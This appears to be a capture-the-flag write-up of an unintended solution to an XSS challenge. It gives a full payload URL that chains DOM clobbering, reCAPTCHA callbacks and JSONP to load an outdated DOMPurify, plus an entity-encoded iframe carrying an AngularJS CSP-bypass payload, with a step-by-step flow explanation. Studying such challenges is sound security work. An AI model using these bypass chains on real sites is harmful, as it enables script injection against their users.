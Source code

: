 Unintended #4 by @lbrnli1234
Another dope unintended has been found:

https://aszx87410.github.io/xss-challenge/notes/?name=&content=<p class=g-recaptcha data-sitekey=x data-error-callback=reloadRecaptchaScript></p>
<p class=g-recaptcha data-sitekey=x data-error-callback=reloadRecaptchaScript></p>
<p class=g-recaptcha data-sitekey=x data-error-callback=loadData></p>
<form></form>
<form id=defaultOptions><img id=allowDOM></form>
<form name=scripts>
<input id=undefined src='https://www.google.com/recaptcha/../complete/search?client=hp&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.0/purify.min.js%23&callback=loadScript'>
<img id=undefined src='https://www.google.com/recaptcha/../jsapi?callback=loadData'>
</form>
<form><math><mtext></form><form><mglyph><style></math><iframe srcdoc='
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3d;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x63;&#x64;&#x6e;&#x6a;&#x73;&#x2e;&#x63;&#x6c;&#x6f;&#x75;&#x64;&#x66;&#x6c;&#x61;&#x72;&#x65;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x61;&#x6a;&#x61;&#x78;&#x2f;&#x6c;&#x69;&#x62;&#x73;&#x2f;&#x64;&#x6f;&#x6d;&#x70;&#x75;&#x72;&#x69;&#x66;&#x79;&#x2f;&#x2e;&#x2e;&#x25;&#x32;&#x66;&#x70;&#x72;&#x6f;&#x74;&#x6f;&#x74;&#x79;&#x70;&#x65;&#x2f;&#x31;&#x2e;&#x37;&#x2e;&#x32;&#x2f;&#x70;&#x72;&#x6f;&#x74;&#x6f;&#x74;&#x79;&#x70;&#x65;&#x2e;&#x6a;&#x73;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#xa;&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3d;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x63;&#x64;&#x6e;&#x6a;&#x73;&#x2e;&#x63;&#x6c;&#x6f;&#x75;&#x64;&#x66;&#x6c;&#x61;&#x72;&#x65;&#x2e;&#x63;&#x6f;&#x6d;&#x2f;&#x61;&#x6a;&#x61;&#x78;&#x2f;&#x6c;&#x69;&#x62;&#x73;&#x2f;&#x64;&#x6f;&#x6d;&#x70;&#x75;&#x72;&#x69;&#x66;&#x79;&#x2f;&#x2e;&#x2e;&#x25;&#x32;&#x66;&#x61;&#x6e;&#x67;&#x75;&#x6c;&#x61;&#x72;&#x2e;&#x6a;&#x73;&#x2f;&#x31;&#x2e;&#x30;&#x2e;&#x31;&#x2f;&#x61;&#x6e;&#x67;&#x75;&#x6c;&#x61;&#x72;&#x2e;&#x6a;&#x73;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#xa;&#x3c;&#x64;&#x69;&#x76;&#x20;&#x6e;&#x67;&#x2d;&#x61;&#x70;&#x70;&#x20;&#x6e;&#x67;&#x2d;&#x63;&#x73;&#x70;&#x3e;&#x7b;&#x7b;&#x24;&#x6f;&#x6e;&#x2e;&#x63;&#x75;&#x72;&#x72;&#x79;&#x2e;&#x63;&#x61;&#x6c;&#x6c;&#x28;&#x29;&#x2e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x24;&#x6f;&#x6e;&#x2e;&#x63;&#x75;&#x72;&#x72;&#x79;&#x2e;&#x63;&#x61;&#x6c;&#x6c;&#x28;&#x29;&#x2e;&#x64;&#x6f;&#x63;&#x75;&#x6d;&#x65;&#x6e;&#x74;&#x2e;&#x64;&#x6f;&#x6d;&#x61;&#x69;&#x6e;&#x29;&#x7d;&#x7d;&#x3c;&#x2f;&#x64;&#x69;&#x76;&#x3e;
'></iframe>
The content of srcdoc is the classic angularJS CSP bypass payload we mentioned

<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%2fprototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%2fangular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>{{$on.curry.call().alert($on.curry.call().document.domain)}}</div>
The flow is like:

reCAPTCHA triggers reloadRecaptchaScript(), will be run after 1s
reCAPTCHA triggers reloadRecaptchaScript(), will be run after 1s
reCAPTCHA triggers loadData(), run immediately and pollute document.scripts['undefined']
Run the function in step 1, load src from <input>, call loadScript('https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.0/purify.min.js')
Run the function in step 2, load src from <img>, call loadScript('https://www.google.com/recaptcha/../jsapi?callback=loadData') to trigger loadData again
Old version of DOMPurify has loaded (the lib we load in step 4), override latest one
Script at step 5 also loaded, loadData has been called again
Now, the DOMPurify is the old and flawed version, so we can bypass it easily
It sometimes fails because of race conditions.
